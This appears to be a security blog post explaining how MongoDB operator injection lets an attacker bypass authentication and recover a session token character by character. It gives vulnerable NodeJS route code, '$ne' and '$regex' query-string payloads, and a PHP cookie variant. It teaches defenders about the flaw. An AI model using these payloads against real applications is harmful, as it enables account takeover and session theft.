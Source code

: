 # MongoDB NoSQL Operator Injection: Cracking Sessions

<p className="text-xs text-right">August 9, 2020 by [patrickd](/about#patrickd)</p>

This article discusses how Operator Injection in MongoDB may be used for efficiently cracking a secret session token and therefore breaking authentication. 

## Exploit

Let's assume we have a NodeJS application with an authentication system that stores its API access tokens within a `sessions` collection together with the ID of the user that the session belongs to:

```javascript
{
  "token": "sG21bUPlH9ywz1MtA9O1tPuEaZU8pm7J",
  "userId": ObjectId("5f1caba000aa76a6263c1854")
}
```

The following is a `GET /me{:http}` route that makes use of that system and returns information for the currently authenticated user:

```javascript javascript showLineNumbers filename="Route Controller" /req.query.access_token/
// GET /me?access_token=sG21bUPlH9ywz1MtA9O1tPuEaZU8pm7J
app.get('/me', async (req) => {
  // Authenticate.
  const session = sessions.findOne({ token: req.query.access_token });
  if (!session) {
    throw new AccessDeniendError('Invalid session access token');
  }
  // Return authenticated user information.
  return users.findOne({ _id: session.userId });
});
```

As in [the previous article](/posts/2020/7/25/iterating-collections-mongodb-nosql-operator-injection) we can again use query parameters to specify an object instead of the expected access_token string (`?key[field]=value{:js}`) in order to inject an operator into the database query.

While it's simple to use the not-equal (`$ne`) operator to authenticate with the first session found in database (by [natural order](https://docs.mongodb.com/manual/reference/glossary/#term-natural-order), not unlikely to be an admin user), we won't be able obtain the actual access_token that was used as part of the response.

```bash
GET /users?access_token[$ne]=_nothing_will_match_this_
```

But as the target value is a string we can now make use of the [Regular Expression Matching Operator](https://docs.mongodb.com/manual/reference/operator/query/regex/) (`$regex`), allowing us to iterate the token's alphabet – character by character:

```bash
GET /users?access_token[$regex]=^a
  -> denied / wrong user
GET /users?access_token[$regex]=^b
  -> denied / wrong user
GET /users?access_token[$regex]=^c
  -> denied / wrong user
...
GET /users?access_token[$regex]=^s
  -> ok / correct user
  -> token starts with "s"
GET /users?access_token[$regex]=^sa
  -> denied / wrong user
GET /users?access_token[$regex]=^sb
  -> denied / wrong user
GET /users?access_token[$regex]=^sc
  -> denied / wrong user
...
```

Compared to attempting to determine the token by brute force (up to $52^{32}$ requests necessary in this example), this is a much more practical way to "crack" a session (only up to $52*32$ requests necessary).

## Caveats

For user facing applications, sessions are more commonly stored in cookies rather than being passed as query parameters. It appears that the most common cookie-parsing libraries for NodeJS do not parse objects specified in the cookie's query-string.

Note however that the behavior is different for other cookie parsers: For example, sending `Cookie: session[$ne]=_nothing_will_match_this_` as HTTP header to a PHP7 Server will be decoded as an object for the `$_COOKIE` global making it a potential attack vector for the described exploit.

---


<Cards>
  <Card
    icon={<NewsletterIcon />}
    title="← MongoDB NoSQL Operator Injection: Iterating Collections"
    href="/posts/2020/7/25/iterating-collections-mongodb-nosql-operator-injection/"
  />
  <Card
    icon={<NewsletterIcon />}
    title="MongoDB NoSQL Operator Injection: Mitigation →"
    href="/posts/2020/9/6/mongodb-nosql-operator-injection-mitigation"
  />
</Cards>